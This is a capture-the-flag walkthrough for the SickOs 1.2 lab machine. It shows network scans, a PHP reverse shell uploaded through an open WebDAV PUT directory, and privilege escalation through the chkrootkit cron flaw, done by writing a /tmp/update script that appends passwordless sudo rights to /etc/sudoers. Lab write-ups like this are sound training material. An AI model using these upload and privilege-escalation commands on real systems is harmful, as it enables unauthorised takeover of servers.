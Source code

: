 Reconnaissance:

Started by finding the host on the network.

nmap -sS -O 192.168.118.0/24

192.168.118.178 looks guilty.

Enumeration:

Now that I've found the host it is time to check what is open.

root@kali:~# nmap -A -T4 192.168.118.178

Starting Nmap 7.40 ( https://nmap.org ) at 2017-05-18 22:56 EDT
Nmap scan report for 192.168.118.178
Host is up (0.00058s latency).
Not shown: 998 filtered ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 5.9p1 Debian 5ubuntu1.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   1024 66:8c:c0:f2:85:7c:6c:c0:f6:ab:7d:48:04:81:c2:d4 (DSA)
|   2048 ba:86:f5:ee:cc:83:df:a6:3f:fd:c1:34:bb:7e:62:ab (RSA)
|_  256 a1:6c:fa:18:da:57:1d:33:2c:52:e4:ec:97:e2:9e:af (ECDSA)
80/tcp open  http    lighttpd 1.4.28
|_http-server-header: lighttpd/1.4.28
|_http-title: Site doesn't have a title (text/html).
MAC Address: 00:0C:29:44:B3:B9 (VMware)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.10 - 4.2, Linux 3.16 - 4.6, Linux 3.2 - 4.6, Linux 4.4
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE
HOP RTT     ADDRESS
1   0.58 ms 192.168.118.178

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 12.76 seconds


root@kali:~# dirb http://192.168.118.178

-----------------
DIRB v2.22    
By The Dark Raver
-----------------

START_TIME: Thu May 18 22:57:27 2017
URL_BASE: http://192.168.118.178/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

-----------------

GENERATED WORDS: 4612                                                          

---- Scanning URL: http://192.168.118.178/ ----
+ http://192.168.118.178/index.php (CODE:200|SIZE:163)                                                                 
==> DIRECTORY: http://192.168.118.178/test/                                                                            

---- Entering directory: http://192.168.118.178/test/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.                        
    (Use mode '-w' if you want to scan it anyway)

-----------------
END_TIME: Thu May 18 22:57:30 2017
DOWNLOADED: 4612 - FOUND: 1

root@kali:~# nmap --script http-methods -p 80 192.168.118.178

Starting Nmap 7.40 ( https://nmap.org ) at 2017-05-18 22:58 EDT
Nmap scan report for 192.168.118.178
Host is up (0.00052s latency).
PORT   STATE SERVICE
80/tcp open  http
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
MAC Address: 00:0C:29:44:B3:B9 (VMware)

Nmap done: 1 IP address (1 host up) scanned in 0.39 seconds

Almost helpful...but lets poke at that test directory more.

root@kali:~# curl -X OPTIONS -v http://192.168.118.178/test/
*   Trying 192.168.118.178...
* TCP_NODELAY set
* Connected to 192.168.118.178 (192.168.118.178) port 80 (#0)
> OPTIONS /test/ HTTP/1.1
> Host: 192.168.118.178
> User-Agent: curl/7.52.1
> Accept: */*
>
< HTTP/1.1 200 OK
< DAV: 1,2
< MS-Author-Via: DAV
< Allow: PROPFIND, DELETE, MKCOL, PUT, MOVE, COPY, PROPPATCH, LOCK, UNLOCK
< Allow: OPTIONS, GET, HEAD, POST
< Content-Length: 0
< Date: Fri, 19 May 2017 09:04:51 GMT
< Server: lighttpd/1.4.28
<
* Curl_http_done: called premature == 0
* Connection #0 to host 192.168.118.178 left intact
root@kali:~#

PUT.....I like that :)  dirb was nice enough to show us index.php, so how about a reverse php shell.  Sounds like fun.

http://pentestmonkey.net/tools/web-shells/php-reverse-shell

Change the IP in the script to my machines ip and the port to 4234.

root@kali:~/Downloads/php-reverse-shell-1.0/php-reverse-shell-1.0# curl http://192.168.118.178/test/ --upload-file php-reverse-shell.php

417 - Expectation Failed....hmm....off to Google!

root@kali:~/Downloads/php-reverse-shell-1.0/php-reverse-shell-1.0# curl -v -H "Expect:" -T "php-reverse-shell.php" http://192.168.118.178/test/

Thank you google!  Now....to run the PHP script from a web browser and watch netcat.  Or....nothing in netcat.  Maybe the sysadmin doesn't know how to configure lighttpd....but knows outbound filtering.  I'm going to change the port of the reverse shell to 443.

root@kali:~/Downloads/php-reverse-shell-1.0/php-reverse-shell-1.0# curl -v -H "Expect:" -T "php-reverse-shell-443.php" http://192.168.118.178/test/

HA!  That looks better!

$ whoami
www-data

Now...lets see what is installed.

$ dpkg --get-selections | grep deinstall
chkrootkit					deinstall

One package......

$ dpkg -s chkrootkit
Package: chkrootkit
Status: deinstall ok config-files
Priority: optional
Section: misc
Installed-Size: 915
Maintainer: Ubuntu Developers <ubuntu-devel-discuss@lists.ubuntu.com>
Architecture: i386
Version: 0.49-4ubuntu1.1
Config-Version: 0.49-4ubuntu1.1
Depends: libc6 (>= 2.7), debconf (>= 0.5) | debconf-2.0, binutils, net-tools, debconf, procps
Conffiles:
 /etc/cron.daily/chkrootkit f1aad4f9042a8595e68e7ecfde1c10f6
Description: rootkit detector
 The chkrootkit security scanner searches the local system for signs
 that it is infected with a 'rootkit'. Rootkits are set of programs
 and hacks designed to take control of a target machine by using known
 security flaws.
 .
 Types that chkrootkit can identify are listed on the project's home page.
 .
 Please note that where chkrootkit detects no intrusions, this does
 not guarantee that the system is uncompromised. In addition to
 running chkrootkit, more specific tests should always be performed.
Homepage: http://www.chkrootkit.org/
Original-Maintainer: Giuseppe Iuculano <iuculano@debian.org>
$

https://www.exploit-db.com/exploits/33899/

Thanks Google!  Maybe we can add the www-data user to the sudo users

$ cd /tmp
$ echo "#!/bin/sh\nusermod -aG sudo www-data"
#!/bin/sh
usermod -aG sudo www-data
$ echo "#!/bin/sh\nusermod -aG sudo www-data" > update
$ chmod 777 update
$ ls -l
total 16
drwxrwxrwt 2 root     root     4096 May 18 13:46 VMwareDnD
srwxr-xr-x 1 www-data www-data    0 May 18 13:46 php.socket-0
-rwxrwxrwx 1 www-data www-data   36 May 19 02:48 update
-rw-r--r-- 1 root     root     1600 May 18 19:46 vgauthsvclog.txt.0
drwx------ 2 root     root     4096 May 18 13:46 vmware-root
$

And wait....

$ echo "touch /tmp/update-ran.txt" >> /tmp/update
$ cat /tmp/update
#!/bin/sh
usermod -aG sudo www-data
touch /tmp/update-ran.txt

Make sure that the update file ran and there isn't a problem with my sudo add.

$ ls
VMwareDnD
php.socket-0
update
update-ran.txt
vgauthsvclog.txt.0
vmware-root

Restarted the shell...

$ sudo su
sudo: no tty present and no askpass program specified
Sorry, try again.
sudo: no tty present and no askpass program specified
Sorry, try again.
sudo: no tty present and no askpass program specified
Sorry, try again.
sudo: 3 incorrect password attempts

No go...lets try something else..

$ echo '#!/bin/sh\necho "www-data ALL=(ALL) ALL" >> /etc/sudoers' >> update2
$ cat update2
#!/bin/sh
echo "www-data ALL=(ALL) ALL" >> /etc/sudoers

$ echo "touch /tmp/update2-ran.txt" >> /tmp/update2
$ cat update2
#!/bin/sh
echo "www-data ALL=(ALL) ALL" >> /etc/sudoers
touch /tmp/update2-ran.txt
$ mv update update.old
$ mv update2 update

And time to wait again.

$ ls
VMwareDnD
php.socket-0
update
update-ran.txt
update.old
update2-ran.txt
vgauthsvclog.txt.0
vmware-root

still not working.....time to possibly break stuff

$ echo "chmod 777 /etc/sudoers" > update

Looks like my format was wrong....going to try and fix it...maybe i didn't kill the sudoers file...

$ echo 'echo "www-data	ALL=(ALL:ALL) ALL" >> /etc/sudoers' > /tmp/update

$ sudo su
sudo: /etc/sudoers is mode 0777, should be 0440
sudo: no valid sudoers sources found, quitting
sudo: unable to initialize policy plugin

ok, lets fix that

$ echo "chmod 0440 /etc/sudoers" > /tmp/update

still no go, probably broke the sudoers file...one more shot

$ echo 'echo "www-data ALL=NOPASSWD: ALL" >> /etc/sudoers'

restart my shell....

$ sudo su
whoami
root

huzaah!  Turns out i'm not great with sudoers format...and it is harder to break the file than i orginally guessed.

cd /root
ls
304d840d52840689e0ab0af56d6d3a18-chkrootkit-0.49.tar.gz
7d03aaa2bf93d80040f3f22ec6ad9d5a.txt
chkrootkit-0.49
newRule
cat /root/7d03aaa2bf93d80040f3f22ec6ad9d5a.txt
WoW! If you are viewing this, You have "Sucessfully!!" completed SickOs1.2, the challenge is more focused on elimination of tool in real scenarios where tools can be blocked during an assesment and thereby fooling tester(s), gathering more information about the target using different methods, though while developing many of the tools were limited/completely blocked, to get a feel of Old School and testing it manually.

Thanks for giving this try.

@vulnhub: Thanks for hosting this UP!.
